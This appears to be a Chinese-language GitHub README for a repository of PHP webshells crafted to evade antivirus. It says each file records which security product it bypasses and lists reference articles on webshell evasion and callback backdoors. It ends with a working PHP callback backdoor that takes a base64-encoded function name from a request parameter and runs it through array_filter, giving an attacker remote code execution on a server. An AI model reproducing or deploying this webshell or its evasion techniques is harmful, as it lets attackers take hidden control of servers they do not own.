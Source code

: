 
对php免杀的一些研究成果，每一文件里都写了能过哪个软件  

心血来潮搞得，还没来得及深入，突然没了兴致了，先mark一波，以后有兴致再说吧

如果有点进来结果发现没什么干货的同学，下面有一些参考文献，请笑纳


# 参考文献

[我们要WebShell过人！ - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/241454.html)

[PHP webshell 免杀姿势总结 | 国光](https://www.sqlsec.com/2020/07/shell.html#toc-heading-2)  

[创造tips的秘籍——PHP回调后门 | 离别歌](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)  

[一些不包含数字和字母的webshell | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#)  

[第3篇：常见的Webshell查杀工具 · 应急响应实战笔记](https://bypass007.github.io/Emergency-Response-Notes/Summary/%E7%AC%AC3%E7%AF%87%EF%BC%9A%E5%B8%B8%E8%A7%81%E7%9A%84Webshell%E6%9F%A5%E6%9D%80%E5%B7%A5%E5%85%B7.html)  

回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array($_REQUEST['pass'],);
array_filter($arr, base64_decode($e));
?>
```
